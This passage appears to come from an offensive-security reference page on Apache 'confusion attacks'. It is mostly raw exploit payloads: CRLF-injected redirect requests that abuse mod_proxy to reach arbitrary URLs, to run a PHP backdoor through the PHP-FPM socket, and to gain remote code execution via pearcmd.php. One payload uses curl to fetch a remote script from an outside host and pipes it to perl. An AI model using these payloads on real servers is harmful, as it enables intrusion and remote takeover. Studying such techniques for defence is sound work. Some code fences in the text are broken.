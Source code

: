 Redirecting to `mod_proxy` to access any protocol on any URL:

```
http://server/cgi-bin/redir.cgi?r=http://%0d%0a
Location:/ooo %0d%0a
Content-Type:proxy:
http://example.com/%3F
 %0d%0a
%0d%0a
```
```
However, the `X-Forwarded-For` header is added preventing access to cloud metadata endpoints.

#### **Arbitrary Handler to Access Local Unix Domain Socket**

Access PHP-FPM’s local Unix Domain Socket to execute a PHP backdoor located in `/tmp/`:

```
http://server/cgi-bin/redir.cgi?r=http://%0d%0a
Location:/ooo %0d%0a
Content-Type:proxy:unix:/run/php/php-fpm.sock|fcgi://127.0.0.1/tmp/ooo.php %0d%0a
%0d%0a
```
```
#### **Arbitrary Handler to RCE**

The official [[https://hub.docker.com/_/php|PHP Docker]] image includes PEAR (`Pearcmd.php`), a command-line PHP package management tool, which can be abused to obtain RCE:

```
http://server/cgi-bin/redir.cgi?r=http://%0d%0a
Location:/ooo? %2b run-tests %2b -ui %2b $(curl${IFS}
orange.tw/x|perl
) %2b alltests.php %0d%0a
Content-Type:proxy:unix:/run/php/php-fpm.sock|fcgi://127.0.0.1/usr/local/lib/php/pearcmd.php %0d%0a
%0d%0a
```
```
Check [[https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp), written by [Phith0n](https://x.com/phithon_xg|**Docker PHP LFI Summary**]] for the details of this technique.

## References

- [[https://blog.orange.tw/2024/08/confusion-attacks-en.html?m=1|https://blog.orange.tw/2024/08/confusion-attacks-en.html?m=1]]
- [[https://httpd.apache.org/docs/2.4/custom-error.html|Apache 2.4 Custom Error Responses (ErrorDocument)]]
- [[https://httpd.apache.org/docs/2.4/expr.html|Apache 2.4 Expressions and functions (file:)]]
- [[https://0xdf.gitlab.io/2025/08/12/htb-zero.html|HTB Zero write-up: .htaccess ErrorDocument LFI and cron pgrep abuse]]

